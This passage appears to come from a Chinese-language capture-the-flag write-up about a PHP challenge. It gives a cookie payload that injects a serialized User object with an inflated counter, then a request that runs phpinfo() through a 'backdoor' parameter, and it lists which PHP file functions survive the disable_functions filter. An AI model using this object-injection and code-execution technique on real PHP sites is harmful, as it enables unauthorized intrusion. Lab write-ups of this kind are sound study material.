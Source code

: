 payload

```
修改cookie
data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D;

然后
http://1e108216-260c-4428-a8f3-3bf27a9ee03c.node4.buuoj.cn:81/add_api.php?backdoor=phpinfo();
```

![image-20211108105941260](images/3.png)

看一下disable_functions

![image-20211108112145164](images/4.png)

过滤了这么多不,过这里没有过滤file_get_contents,file_put_contents,scandir,print_r等函数

设置了open_basedir
